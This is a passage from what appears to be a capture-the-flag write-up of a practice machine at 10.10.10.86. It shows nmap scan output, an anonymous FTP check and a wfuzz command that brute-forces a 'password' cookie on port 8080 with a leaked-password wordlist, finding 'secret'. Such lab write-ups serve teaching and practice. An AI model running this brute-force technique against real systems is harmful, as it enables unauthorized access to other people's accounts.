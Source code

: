 ```
|_http-server-header: nginx/1.10.3 (Ubuntu)
| http-title: Login
|_Requested resource was http://10.10.10.86/login
8080/tcp open  http    syn-ack ttl 63 nginx 1.10.3 (Ubuntu)
| http-methods:
|_  Supported Methods: HEAD OPTIONS GET
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Internal Dev
```

`nmap` finds `21/tcp`, `22/tcp`, `80/tcp` and `8080/tcp` open. Let's start with the `ftp` service since I can login anonymously.

Well, there's nothing in `ftp` except for an image.


{% include image.html image_alt="5598951f.png" image_src="/cf03319f-a3c7-48c7-bf76-211a3be4935e/5598951f.png" %}


This is how the image looks like. Duh!


{% include image.html image_alt="e0f85be5.png" image_src="/cf03319f-a3c7-48c7-bf76-211a3be4935e/e0f85be5.png" %}


### Directory/File Enumeration

Time to move on to the `http` services, starting with `80/tcp`.


{% include image.html image_alt="123ed84f.png" image_src="/cf03319f-a3c7-48c7-bf76-211a3be4935e/123ed84f.png" %}


Bummer. I'm not going to brute-force something I have no knowledge of. `8080/tcp` is next.


{% include image.html image_alt="83abd8cf.png" image_src="/cf03319f-a3c7-48c7-bf76-211a3be4935e/83abd8cf.png" %}


This is easier to brute-force. At least I know that I need to introduce a `password` cookie. :laughing:

`wfuzz` is the perfect tool for such a job.

```
# wfuzz -w /usr/share/seclists/Passwords/darkweb2017-top1000.txt -t 20 -b "password=FUZZ" --hs incorrect http://10.10.10.86:8080
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.86:8080/
Total requests: 1000

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000211:  C=200     21 L	      48 W	    540 Ch	  "secret"
000852:  C=200     14 L	      29 W	    324 Ch	  "love11"^C
Finishing pending requests...
```
